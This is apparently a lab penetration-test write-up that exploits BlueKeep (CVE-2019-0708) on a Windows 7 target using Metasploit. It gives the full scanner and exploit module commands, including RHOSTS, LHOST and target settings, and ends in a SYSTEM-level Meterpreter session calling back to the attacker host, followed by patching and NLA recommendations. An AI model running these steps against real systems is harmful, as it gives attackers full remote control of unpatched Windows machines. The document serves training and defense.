








# BlueKeep (CVE-2019-0708)

**Classification:** Assessment Methodologies / Vulnerability Assessment<br>
**Target:** 10.10.10.7 (WIN7-PC - Windows 7 SP1 x64)<br>
**Attacker:** 10.10.10.10

## 1. Executive Summary

The target exposes the **RDP** service (port 3389), which is vulnerable to **BlueKeep
(CVE-2019-0708)**, a pre-authentication remote code execution flaw in the Windows RDP
kernel driver. Using Metasploit we confirm the vulnerability with the scanner module and
then exploit it to obtain a Meterpreter session running as **NT AUTHORITY\SYSTEM**.

## 2. Reconnaissance

We confirm the RDP service is running on the target.

```bash
sudo nmap -p 3389 10.10.10.7
```

Port `3389/tcp` (ms-wbt-server) is open.



## 3. Vulnerability Check

In MSF Console we search for BlueKeep modules and select the scanner.

```bash
search BlueKeep
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
```



After setting `RHOSTS` to the target, we run the check.

```bash
set RHOSTS 10.10.10.7
run
```

The module reports the target is **vulnerable** (it attempted cleanup of the
incorrectly-bound MS_T120 channel).



## 4. Exploitation

We switch to the exploit module (which only works on x64 Windows) and review the payload
options (`LHOST` = our host, `LPORT` = listener port).

```bash
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS 10.10.10.7
set LHOST 10.10.10.10
```



Running it with automatic targeting fails, as the module cannot fingerprint the exact
environment and asks us to set the target manually.

```bash
exploit
```



We list the available targets and select the one matching the environment (VirtualBox).

```bash
show targets
set target 2
```



Running the exploit again, the CHUNK grooming strategy succeeds and a Meterpreter session
is opened.

```bash
exploit
```

> Note: because BlueKeep corrupts kernel memory, an incorrect target or grooming size can
> crash the host (BSOD). If that happens, adjust the target/grooming parameters and retry.



## 5. Post-Exploitation

```bash
sysinfo
getuid
```

We confirm access to `WIN7-PC` (Windows 7 SP1 x64) as **NT AUTHORITY\SYSTEM**.



## 6. Remediation Recommendations

1. **Apply the Microsoft patch for CVE-2019-0708** (May 2019) on all affected systems
   (Windows 7, Server 2008/2008 R2 and earlier).
2. **Enable Network Level Authentication (NLA)** for RDP, which requires authentication
   before a session is established and mitigates BlueKeep.
3. **Restrict RDP exposure:** do not expose 3389 to untrusted networks; place it behind a
   VPN and firewall, and disable RDP where it is not needed.
4. **Decommission end-of-life operating systems** that no longer receive security updates.
